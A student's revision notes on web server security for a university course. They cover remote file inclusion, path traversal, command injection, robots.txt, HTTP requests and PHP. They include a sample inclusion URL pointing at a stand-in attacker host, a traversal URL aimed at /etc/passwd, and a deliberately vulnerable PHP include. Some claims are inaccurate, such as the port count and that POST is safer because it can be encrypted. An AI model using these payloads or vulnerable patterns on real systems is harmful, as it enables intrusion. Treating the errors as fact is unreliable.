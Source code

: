 ```yaml
---
layout: CS140
title: Web Server Security Issues
part: true
---
```


> **Note.** In the revision lecture, Ligang mentioned that web server will not be tested during the exam 🥳

A large part of this topic was meant for us to understand more about the interactions between a client and the web server – which was relevant for our coursework at the time.

What I have done is included the main security issues at the top of this page, however if there is trouble understanding somethings then you might need to read the sections to understand more about PHP, HTTP requests, Client and Web Server interaction etc. 

## Remote File Inclusion (RFI) Vulnerability

If the URL sent by the user is:

http://yoursite.com/index.php?page=http://ev.il/badscript.php?

include `$_GET[‘page’]”.html”` becomes:

```
include http://ev.il/badscript.php?.html
```

What happens is that `badscript.php` will be run, because the content after “?” will be interpreted as input parameter of the php script. 

## Forms

> A **form** is used to pass information from a web browser to a web server. 

There are 2 different ways to submit a form, GET or POST. Especially when forms contain sensitive information, POST is **always safer** than GET. When a form is sent:

- GET request will have form parameters encoded in the head of the HTTP request as the address of the resource that we want to access. 
- POST requests will have the form parameters placed in the body of the HTTP requests. More **secure** because we can encrypt the HTTP request.

### Call OS commands in PHP

When using PHP, sometimes developers make the mistake of running shell commands through the PHP file that has a parameter/variable that depends on **form inputs**. 

> This is a potential vulnerability as an attacker can send code through these inputs and can make the web server OS perform commands that could compromise security.

## Path Exploits

Path exploits try to enter the directory or access files that are not intended to be accessible. 

For example, if the user in put the web address:

http://www.example.com/home/users/.../etc/passwd

Without proper configuration, the passwd file will be displayed. When allow `_url_fopen` (a directive in the php configuration file - php.ini) is set to “on” – User’s will be allowed to retrieve and display the file in server, even if the file is not a typical web page (e.g. html or php).

## Robot Exclusion Protocol

> Web crawlers or Web robots systematically scan the World Wide Web to mine data.
>
> Robot Exclusion Protocol (REP) specifies which directories of the website that the robot should not scan. 

Instructions are written in the robots.txt file, which is in the root directory of the web server. Example:

```txt
User-agent:* # apply to all robots
Disallow:/local/secure.html

User-agents:Googlebot # apply only to Googlebot
Disallow:/private/
```

When there is sensitive data, we should exclude robots from crawling those files.

## Accompanying resources

That concludes the content covering potential security issues related to web servers. The content below is an additional resource to give background information about the Web Servers, PHP and HTTP requests. I recommend that you give it a read if you’re not confident in your knowledge of this topic.

### Interaction between Client and Web Server

In general there are 5 main steps between client and server

1. User issues URL from a browser
2. Browser sends a request message
3. Server maps the URL to a file or program under the document directory
4. Server returns a response message
5. Browser formats the response and displays

### HTTP Request

When a client types a URL address into the browser, our browser composes a message such as

```http
GET /docs/index/.html HTTP/1.1
Host: www.nowhere123.com
Accept: image/gif, image/jpeg, */*
Accept-Language: en-us
Accept-Encoding: gzip, deflate
User-Agent: Mozzila/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
{blank line}
```

The message consists of a number of lines. The first line is the request line. 

- **Format**: <u>message_name</u>  <u>request-uri</u> (address of the resource we want to access)  <u>HTTP-version</u>. 
- In the example this is the first line.

Request line is followed by request headers

- **Format**: <u>name</u> : <u>value</u> pairs
- In the example this is the 2nd line. Name is "Host". Value is "www.nowhere123.com"

Request line and request headers are together called request message header, followed by request message body. In the example above, the request message body is blank. 

#### HTTP Request Methods

- HTTP protocol defines a set of request methods.
  - in the example above, the message is **GET** - when we type an address in the browser search bar, we always trigger a GET request. 

**Methods supported by web server**

- **GET** : get a web resource from the server
- **HEAD**: get the header that a GET request would have obtained
- **POST**: Used to post the data up to the web server
- **PUT**: Ask the server to store the data
- **DELETE**: Ask the server to delete the data
- **OPTIONS**: Ask the server to request the list of request methods it supports

#### How HTTP server process requests

##### Listening

HTTP server listens to the port(s) specified in the configuration file of the server

- Port is the endpoint communication destination and is associated to a process/service
  - the request arriving at a certain port will be processed by the associated service
- port is a 16 bit number- there are 66536 ports in a computer
- http: 80, ssh: 22, ftp: 21, smtp: 25, etc. 

##### Processing 

After the server receives the request there are three general ways to process to request

1. map the request to a **file** in the directory in the server, and returns the file to the client
2. map the request to a **program** in the server, executes the program, and returns the output of the program to the client. (e.g. post request, CGI)
3. the request cannot be satisfied, the server returns an **error** message. 

If the webpage is HTML file, CGI is one way to invoke a program in the server. If we use PHP to write a webpage we can embed functions in the web page. PHP is a tool for making dynamic web pages. 

### PHP

A section in HTML file. Here is an example:

```php+HTML
<?php
echo My first PHP 
?>
```

**Dynamic file loading in PHP**

Suppose the link of your website is: http://yoursite.com/index.php

In the webpage, there is the following php code:

```php+HTML
<?php include $_GET['page']".html"; ?>
```

PHP supports loading a file based on data passed via the URL parameter.

When the user types the following web address:

http://yoursite/com/index.php?page=photos

- The content after “?” is interpreted as the parameter of the request
- i.e. index.php is run with “page=photos” as input parameter. 

Lets look more at `include $_GET['page']".html`: 

In PHP there are internal arrays which are used to hold information that are passed from the client. The `$_` tells PHP that we are trying to access an array and `GET['page']` tells PHP we are trying to access the `page` variable in the `GET` array. The `include` statement loads “photos.html” because we pass page=photos.

It is a dynamic web page, because the same source of the web page displays different content depending on the user’s input

For example, if the user types `page=contact`, then contact.html page will be loaded instead.

